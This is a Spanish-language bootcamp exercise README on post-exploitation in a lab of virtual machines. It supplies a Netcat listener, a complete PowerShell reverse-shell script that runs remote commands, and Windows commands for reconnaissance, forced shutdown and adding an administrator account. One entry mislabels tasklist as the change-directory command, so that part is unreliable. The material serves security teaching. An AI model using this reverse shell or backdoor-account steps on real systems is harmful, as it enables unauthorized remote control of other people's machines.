


# Comandos CMD de Windows para Hacking Remoto
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/buffer-overflow-exploit-project/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[](https://4geeks.com)
[](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/buffer-overflow-exploit-project/blob/main/README.es.md)*
<!-- endhide -->


<!-- hide -->


### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.


<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:


### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```


- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```


- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:



- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```



<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->